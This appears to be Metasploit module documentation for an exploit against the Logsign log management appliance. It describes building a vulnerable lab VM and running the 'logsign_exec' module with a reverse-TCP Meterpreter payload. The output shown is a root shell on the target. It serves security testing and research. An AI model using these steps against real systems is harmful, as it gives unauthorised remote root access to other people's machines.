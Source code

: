 ## Vulnerable Application

Download the vulnerable version of OVA or ISO file from following URL. I strongly suggest you to choose OVA.

[http://s3-eu-west-1.amazonaws.com/innotim/Logsign.ova](http://s3-eu-west-1.amazonaws.com/innotim/Logsign.ova)
[http://s3-eu-west-1.amazonaws.com/innotim/forest-4.4.1-12.04.iso](http://s3-eu-west-1.amazonaws.com/innotim/forest-4.4.1-12.04.iso)

### Creating A Testing Environment

1. Open OVA file with your preferred virtualisation application.
2. Before starting the virtual machine, choose NAT mode for interface.
3. Once the machine started, you must be seeing following information on screen.
```
Ubuntu 12.04.05 LTS - logsign customer tty1
IP: 12.0.0.10
...
Version: Focus
4.4.2 
```
4. Access the management interface by visiting `https://<ip_address>` through your browser.
5. Complete the installation by just submitting the fake data. 

**Please follow below instructions if you are seeing different IP address on the screen that doesn't belong to your NAT network range.**

Right after step 3, I've started to see totally different IP address on the screen which was something like 10.0.0.X. Since there is no such a network range in my configuration, it's impossible access to the machine through network. Here is the steps that shows how you can fix this issue. Follow these instructions and then go back to the step 5.

1. Reboot the machine
2. Start pressing ```shift``` button at the very beginning and keep pressing until you see GRUB menu.
3. Choose second line and press enter. We are going to about boot machine with recovery mode.
4. You must be seeing terminal right now. Execute following commands.
```
mount -rw -o remount /
```
5. Execute following command specify a new password for root user.
 ```
 passwd root
 ```
6. As a final step, reboot the machine.
 ```
reboot
 ```
7. Login with your root user.
8. Open ```/etc/network/interfaces``` file and perform necessary changes. Here is my own configuration. 
```
address 12.0.0.10
netmask 255.255.255.0
<removed line starting with 'network'>
<removed line starting with 'broadcast'>
gateway 12.0.0.2
dns-nameservers 8.8.8.8
```
9. Reboot the machine for a last time.

## Verification Steps

  1. Install the software as documented above
  2. Start `msfconsole`
  3. `use exploit/linux/http/logsign_exec`
  4. `set rhost 12.0.0.10
  6. `python/meterpreter/reverse_tcp` is configured as a default payload. Change it if you need. Most of the case, you're okay go with default payload type.
  7. `set LHOST 12.0.0.1`
  8. `check` and validate that you are seeing following output.

```
[+] 12.0.0.10:80 The target is vulnerable.
```

  9. Here you go. Type `exploit` and hit the enter.

```
[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Delivering payload...
[*] Sending stage (38651 bytes) to 12.0.0.10
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.10:46057) at 2017-02-28 14:11:20 +0100

meterpreter > getuid
Server username: root
meterpreter >
```